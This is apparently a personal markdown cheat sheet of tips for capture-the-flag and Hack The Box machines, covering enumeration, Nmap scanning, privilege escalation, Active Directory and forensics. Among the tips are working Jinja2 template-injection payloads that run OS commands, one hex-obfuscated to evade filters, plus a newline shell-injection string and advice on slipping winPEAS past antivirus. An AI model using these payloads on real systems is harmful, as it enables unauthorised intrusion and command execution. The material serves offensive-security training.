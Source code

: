 # Tips and Tricks for CTF and HTB boxes
## Enumeration
- Look for source code on Github of open source softwares and their "Security annoucements", try to enumerate the version and released date.
- Use md5 of library file to looks up date or version on VirusTotal
- Looks for security fixes in the next version of current version
- Keep and eye on little detail
- Vhost maybe use on both 80 and 443
- Take any domains you see into /etc/hosts
- Check SSL certificate for more informations
- Always enumerate on subdomains and virtual hosts
- Run gobuster with php extension


## Scripting and Coding
- Use setuid binary with C code.


## CVE 
- Sometimes old version CVEs could work, try them if you don't have other choices.

## Scanning
- Nmap: Scanning UDP is not reliable, always try more scanning with UDP ports (run with --top-ports and -sC or -sV for probing)
- Nmap: Always remember to run Nmap with UDP and vulnerable scripts
- Nmap: Can't run SYN scan through Proxy and sometimes VPN
- Nmap: Some port can't be detected but run important service, remember to check all of them on Internet
- WPScan: only use enumerate all plugins or all themes at once, not both at the same time. 
- Scanning CMS: magescan for Magento, droopescan for Wordpress, SilverStripe and Drupal, wpscan for Wordpress

## Linux
- Check users's mails
- Always try hijacking path if the PATH is writable. 
- Check port knocking if some ports are filtered at /etc/knockd.conf (depends)
- Always patiently check for weird files and folders
- Use ltrace for better anaylysing system calls
- Exploit for shell command injection: newline=$'\n' ; bla${newline}/bin/bash${newline}bla or $(printf 'bla\n/bin/bash\nbla')
- Owner and group owner and even suid bit of a binary doesn't change after transferring through internet and can be used to tampered with suid binary
- Use apport-unpack to extract crashed coredump to file system 

## Windows
- Always check local exploits first
- `systeminfo`: Hotifx(s) : N/a means the box hasn't updated 
- Web Server uses WebDav protocol: Use davtest and cadaver to exploit.
- Migrate to another process if you have an unstable shell.
- Always try snmp-check on Windows boxes
- Sometimes we must manually grant privilege on some locations in order to have our own privileges
- Change to other user: https://superuser.com/questions/1420850/is-there-a-way-to-switch-user-from-powershell-or-cmd
- wsman and msrm to remote login on Windows
- Check for installed programs in Program Files or Program Files x86
- Can use the obfuscator release of winPEAS to bypass some AV
- `net user administrator password` to change admin password if we have a local admin account

## Active Directory
- Use BloodHound and SharpHound to gather information about AD, mark some users as Owned then use "Shortest Path from Owned Principals".
- Dsync attack to get domain admins password and pass the hash -> Forest box in HTB

## Softwares:
- VNC is a remote access application and can be accessed with vncviewer
- Use odat for Oracle Database, and use --sysdba for make the user privileged
- Config for IKE VPN -> Conceal box in HTB.


## Web Security
- Bypass eval blacklist a-zA-Z https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- SSTI Jinja 2 https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- You can include(file_descriptor) in PHP with /dev/fd/
- Url can be automatically changed to lowercase to bypass filter (GOOGLE.COM -> google.com), even schemes like HtTp or FiLe
- Object.getOwnPropertyNames(obj).get() or .value to get property from object in Javascript
- Sometimes unquoted urllib python can be bypassed by double encoding
- If the chall uses child_prcocess and we can modify it's variables, try prototype pollution for modifying shell variable to 'bash' (thanks nhoc n3mo)
- Some useful payloads for SSTI Jinja2 with Python3:
  - `{{self.__init__.__globals__.__builtins__.__import__('os')}}`
  - `{{''.__class__.mro()[1].__subclasses__()[132].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  - `{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5f\x6d\x72\x6f\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('\x70\x6f\x70\x65\x6e')('id')|attr('read')()}}`
  - `{{ ''.__class__.__mro__[1].__subclasses__()[408]("id", shell=True, stdout=-1).communicate() }}`
- Remember to hunt to noSQLi when facing to a login form 


## Forensics
- Image steg: zsteg, stegsolve, steghide, stegdetect
- Text steg: stegsnow
- Other steg: binwalk, foremost
- Memory Dump: volatility
- Sound analysing: Audacity, Sonic Visualizer

